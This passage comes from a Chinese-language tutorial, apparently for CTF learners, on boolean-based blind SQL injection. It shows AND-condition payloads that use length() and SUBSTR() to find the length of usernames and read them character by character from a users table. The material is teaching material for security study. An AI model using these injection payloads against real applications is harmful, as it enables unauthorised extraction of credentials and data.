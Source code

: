 ![image-20230504191135714](https://nssctf.wdf.ink//img/WDTJ/202305041911785.png)

这里会要求两个条件为真，一是有`id=1`这个值，二是 `1=1`，这两个条件当然是满足的，特别是后面的这个条件。

那如果我让AND后面的条件为 `1 = 2`：

```sql
SELECT username,password FROM users WHERE id = 1 AND '1'='2';
# 这里 '1' = '2'，1 = 2 效果都是一样的
```

![image-20230504191548610](https://nssctf.wdf.ink//img/WDTJ/202305041915652.png)

可以看到返回为空，因为AND后面的条件不满足。

那么利用这个AND符号我们可以尝试下面的一些方式来获取信息：

- 使用 length(）获取长度信息

比如，我们用 length(）函数去爆破数据长度

```sql
id = 1 AND length(username)= NUM
```

那么语句执行为：

```sql
SELECT username,password FROM users WHERE id = 1 AND length(username)=1;
```



![image-20230504192130407](https://nssctf.wdf.ink//img/WDTJ/202305041921180.png)

当然 枚举长度的方式效率属实难蚌，我们可以使用大于小于符号 基于二分算法进行爆破：

```sql
id = 1 AND length(username)< NUM
id = 1 AND length(username)> NUM
```

这样效率会高很多。

- `SUBSTR()`函数用于截取字符串中的一部分。利用`SUBSTR()`函数，逐步截取数据库中的某个数据：

  `SUBSTR(string, start, length)` 其中，`string`表示要截取的字符串，`start`表示截取的起始位置，`length`表示截取的长度。`SUBSTR()`函数会从字符串的`start`位置开始，截取指定长度的字符。

  ```sql
  1 AND SUBSTR(username,1,1) = '?'
  ```

  那么语句执行为：

  ```sql
  SELECT username,password FROM users WHERE id = 1 AND SUBSTR(username,1,1) = '?';
  ```

  ![image-20230504211550827](https://nssctf.wdf.ink//img/WDTJ/202305042115906.png)

  ```sql
  SELECT username,password FROM users WHERE id = 1 AND SUBSTR(username,2,1) = 'd';
  ```
